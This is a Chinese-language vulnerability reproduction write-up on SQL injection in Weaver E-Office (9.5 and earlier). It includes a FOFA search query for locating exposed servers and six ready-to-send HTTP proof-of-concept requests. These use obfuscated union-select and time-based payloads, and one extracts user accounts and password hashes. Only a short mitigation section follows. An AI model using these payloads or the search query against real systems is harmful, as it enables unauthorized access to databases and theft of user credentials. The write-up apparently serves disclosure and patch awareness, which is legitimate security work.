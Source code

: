 
# 泛微 E-Office SQL 注入漏洞复现

### 0x01 产品简介

    [泛微](https://so.csdn.net/so/search?q=%E6%B3%9B%E5%BE%AE&spm=1001.2101.3001.7020)E-Office 是一款标准化的协同 OA 办公软件，泛微协同办公产品系列成员之一，实行通用化产品设计，充分贴合企业管理需求，本着简洁易用、高效智能的原则，为企业快速打造移动化、无纸化、数字化的办公平台。

### 0x02 漏洞概述

    泛微 e-office  json\_common.php、flow\_xml.php、sms\_page.php、getUserLists、detail.php、Init.php 等接口处存在 SQL 注入漏洞，未经身份验证的恶意攻击者利用 SQL 注入漏洞获取数据库中的信息（例如管理员后台密码、站点用户个人信息）之外，攻击者甚至可以在高权限下向服务器写入命令，进一步获取服务器系统权限。

### 0x03 影响范围

e-office <=9.5

### 0x04 复现环境 

FOFA：app="泛微-EOffice"

![](assets/1701222712-b28d542d099eeb6c913fa7a595b88e3e.png)

### 0x05 漏洞复现

**PoC-1**

```cobol
POST /building/json_common.php HTTP/1.1
Host: {{Hostname}}
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip

tfs=city%60+where+cityId+%3D-1+%2F%2A%2150000union%2A%2F+%2F%2A%2150000all%2A%2F+%2F%2A%2150000select%2A%2F+1%2C2%2C%28%2F%2A%2150000select%2A%2F+group_concat%28user_id%2Cuser_accounts%2Cuser_name%2Cpassword%29+from+user%29%2C4%23%7C2
```

获取用户账号密码信息

![](assets/1701222712-31d03486aa8fc2e20aa9465d99a9e64e.png)**PoC-2**

```cobol
GET /general/system/workflow/flow_type/flow_xml.php?SORT_ID=1+UNION+ALL+SELECT+CONCAT%280x716a717071%2C%40%40version%2C0x716a717071%29%2CNULL%2CNULL%2CNULL%2CNULL%2CNULL%2CNULL%2CNULL%2CNULL%2CNULL%2CNULL%2CNULL%2CNULL%2CNULL%2CNULL%2CNULL%2CNULL%2CNULL%2CNULL%2CNULL%2CNULL--+- HTTP/1.1
Host: {{Hostname}}
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Accept-Encoding: gzip
```

查询数据库版本

![](assets/1701222712-1c92507ce2160223b79334a14121ea82.png)**PoC-3** 

```cobol
GET /E-mobile/sms_page.php?detailid=123%20UNION%20ALL%20SELECT%20NULL,NULL,NULL,NULL,CONCAT(0x7e,user(),0x7e),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL--%20- HTTP/1.1
Host: {{Hostname}}
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
```

查询当前用户

![](assets/1701222712-1c9681b4a71454853aa446bcf0305c97.png)**PoC-4**

```cobol
GET /E-mobile/App/System/UserSelect/index.php?m=getUserLists&privId=1+UNION+ALL+SELECT+NULL,NULL,NULL,NULL,NULL,NULL,(concat(database()))-- HTTP/1.1
Host: {{Hostname}}
Accept-Encoding: gzip
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
```

查询当前数据库

![](assets/1701222712-2f1f0b968788badbf198e5ae6f1259ec.png)**PoC-5** 

```cobol
POST /general/crm/linkman/query/detail.php HTTP/1.1
Host: {{Hostname}}
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Content-Type: application/x-www-form-urlencoded; charset=utf-8
Cookie: PHPSESSID=eff067b73c42eed28e55fd037563593a; LOGIN_LANG=cn; expires=Tue, 22-Apr-2025 14:54:24 GMT
Accept-Encoding: gzip

linkman_id=1%20AND%20%28SELECT%205830%20FROM%20%28SELECT%28SLEEP%285%29%29%29mDdD%29
```

延时 5 秒

![](assets/1701222712-97fbc09fc901568de12e586465c12c53.png)**PoC-6**

```cobol
POST /E-mobile/App/Init.php?m=getSelectList_Crm HTTP/1.1
Host: {{Hostname}}
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15

cc_parent_id=-999+%2F%2A%2150000union%2A%2F+%2F%2A%2150000all%2A%2F+%2F%2A%2150000select%2A%2F+1%2C%28%2F%2A%2150000select%2A%2F+user%28%29%29%23
```

查询当前用户 

![](assets/1701222712-891385f713182d7aab84b69eac5a2b4f.png)

### 0x06 修复建议

厂商已发布了漏洞修复程序，请及时关注更新：https://www.e-office.cn/

临时修复方案：

通过防火墙等安全设备设置访问策略，设置白名单访问。

如非必要，禁止公网访问该系统。
